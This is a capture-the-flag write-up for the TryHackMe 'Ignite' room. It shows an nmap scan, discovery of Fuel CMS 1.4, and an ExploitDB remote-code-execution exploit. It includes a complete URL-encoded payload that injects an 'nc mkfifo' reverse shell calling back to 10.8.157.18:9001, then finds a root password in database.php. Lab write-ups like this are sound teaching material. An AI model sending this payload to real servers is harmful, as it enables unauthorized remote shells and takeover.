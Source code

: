 
<h1 align="center"><a href="https://tryhackme.com/room/ignite" download>Ignite CTF</a></h1> 

## User.txt

Boot up the machine and start nmap scanning

```
nmap -Sc -Sv -v 10.10.205.153
```
Wee can see an open 80 port HTTP server with Fuel CMS

![port.png](./images/port.png)

![fuelcms.png](./images/fuelcms.png)

Lets check the **robots.txt**. There we found interesting path

```
Disallow: /fuel/
```
We are greeted by a login form

![login.png](./images/login.png)

Lets look for available exploits for Fuel CMS 1.4

Fine, i think first version is suitable

![searchsploit.png](./images/searchsploit.png)

On exploitDB
![exploitdb.png](./images/exploitdb.png)

Ok, let's visit https://www.revshells.com/ and Put IP and PORT For reverse shell and select "nc mkfifo" and copy code to https://gchq.github.io/CyberChef/ and select encode all special characters.

![encodeshell.png](./images/encodeshell.png)

Replace the **urllib.quote(xxxx)** to our encode shell like:

from this

```
10.10.205.153/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
```

to this

```
10.10.205.153/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20%2Di%202%3E%261%7Cnc%2010%2E8%2E157%2E18%209001%20%3E%2Ftmp%2Ff%27%29%2b%27
```

start ncat and.. we are in

![wein.png](./images/wein.png)

Fine, lets stabilize reverse shell

![stable.png](./images/stable.png)

I checked the directories for a long time and found **database.php**, there is a password of root, let's try it

Bim Bum

![rootpass.png](./images/rootpass.png)

And here are our flags))

![flags.png](./images/flags.png)








